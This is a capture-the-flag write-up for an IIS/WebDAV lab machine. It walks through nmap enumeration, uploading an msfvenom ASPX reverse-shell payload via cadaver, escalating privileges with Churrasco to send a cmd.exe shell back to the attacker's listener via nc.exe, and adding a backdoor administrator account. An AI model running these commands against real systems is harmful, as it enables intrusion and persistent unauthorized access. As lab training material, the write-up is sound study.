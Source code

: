 # Enumeration
- We use nmap for enumeration `sudo nmap -p- -A -T4 -O 10.10.10.15` which gives ![](attachment/678e9d802489391b23ea087823544165.png)
- We find that a website is hosted:![](attachment/4de56f784020bd493cdc884ed934eda8.png)
- We used dirbuster and found some hidden directories but they are empty![](attachment/2894ac828545017c7554ac988fab6b5f.png)
# Exploitation
## Non-metasploit
- WE find that certain risky requests are permitted using davtest![](attachment/c61997cae39eede6e853037e2b083b49.png)
- Only text and html files are executable so we generate our payload to .aspx format and rename it to .txt using `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=1234 -f aspx >reverse.aspx` and `mv reverse.aspx reverse.txt`![](attachment/f37bba16e9e34c034804553b7d56d2ca.png)
- Then we use cadaver to start a dav session using `cadaver 10.10.10.15` and use a put request to upload our reverse.txt file then rename it to reverse.aspx using move![](attachment/668b8e6a614bb6d2809e59f1e5f9e719.png)
- we visit html://10.10.10.15/reverse.aspx with netcat listening where we get a shell![](attachment/28ca2624a2179607caf213cc9aadd3e9.png)
- We used the churrasco exploit from https://github.com/Re4son/Churrasco and nc.exe file by uploading in the same manner and executing  `churrasco.exe -d "C:\Inetpub\wwwroot\nc.exe 10.10.14.25 4444 -e cmd.exe"` and listening on netcat using `nc -nlvp 4444` ![](attachment/22bc0f914d1eb59b601fa31228af87f9.png)
- can also run `churrasco.exe -d "net user hacker hacker /add && net localgroup Administrators hacker /add"`
- We get a root shell: ![](attachment/12bad755152eb233a29ccd78fd2e99db.png)
## Metasploit
- start metasploit and search for IIS exploits, find one and execute to get a meterpreter shell:![](attachment/bc9f10516acc3ce75146b70c48877944.png)
- using ps to list processes:![](attachment/c6deac7ba1aa16e85895e2058e1eeaca.png)
- We migrate to process 1964 for accessing the user
- We use exploit_suggester and exploit and get a shell. As all this is pretty self explanatory we wont go into detail.